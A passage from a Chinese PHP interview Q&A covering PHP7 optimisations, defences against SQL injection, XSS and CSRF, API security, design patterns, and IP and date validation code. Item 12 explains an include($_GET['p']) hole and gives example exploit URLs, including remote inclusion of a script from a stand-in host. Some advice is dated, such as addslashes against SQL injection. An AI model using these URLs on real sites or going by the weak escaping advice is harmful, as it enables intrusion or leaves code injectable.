 #### 11.php7卓越性能背后的优化

* 减少内存分配次数
* 多使用栈内存
* 缓存数组的hash值
* 字符串解析成桉树改为宏展开
* 使用大块连续内存代替小块破碎内存 详细的可以参考鸟哥的PPT：[PHP7性能之源][49]

#### 12.include($_GET['p'])的安全隐患

现在任一个黑客现在都可以用:http://www.yourdomain.com/index.php?p=anyfile.txt 来获取你的机密信息，或执行一个PHP脚本。 如果allow_url_fopen=On，你更是死定了： 试试这个输入：http://www.yourdomain.com/index.php?p=http://youaredoomed.com/phphack.php 现在你的网页中包含了http://www.youaredoomed.com/phphack.php的输出. 黑客可以发送垃圾邮件，改变密码，删除文件等等。只要你能想得到。

#### 13.列出一些防范SQL注入、XSS攻击、CSRF攻击的方法

SQL注入：

* addslashes函数
* mysql_real_escape_string/mysqli_real_escape_string/PDO::quote()
* PDO预处理 XSS：htmlspecial函数 CSRF：
* 验证HTTP REFER
* 使用toke进行验证

#### 14.接口如何安全访问

jwt或验证签名

#### 15.PHP里有哪些设计模式

* 单例模式
* 工厂模式
* 脸面模式（facade）
* 注册器模式
* 策略模式
* 原型模式
* 装饰器模式 更多的可以看[PHP设计模式简介][54]这篇文章

#### 16.验证ip是否正确

```php
    <?php
    function check_ip($ip)
    {
        if (!filter_var($ip, FILTER_VALIDATE_IP)) {
        return false;
        } else {
            return true;
        }
    }
```

#### 17.验证日期是否合理

```php
    <?php
    function check_datetime($datetime)
    {
        if (date('Y-m-d H:i:s', strtotime($datetime)) === $datetime) {
            return true;
        } else {
            return false;
        }
    }
```


[21]: https://segmentfault.com/a/1190000009745139
[43]: http://www.php.net/manual/zh/ini.sect.safe-mode.php
[47]: https://secure.php.net/manual/en/migration70.new-features.php
[49]: https://github.com/devlinkcn/ppts_for_php2016/blob/master/%EF%BC%88%E6%83%A0%E6%96%B0%E5%AE%B8%EF%BC%89PHP7%E6%80%A7%E8%83%BD%E4%B9%8B%E6%BA%90.pdf
[54]: http://larabase.com/collection/5/post/143
[65]: https://github.com/composer/satis
[66]: https://joelhy.github.io/2016/08/10/composer-private-packages-with-satis/
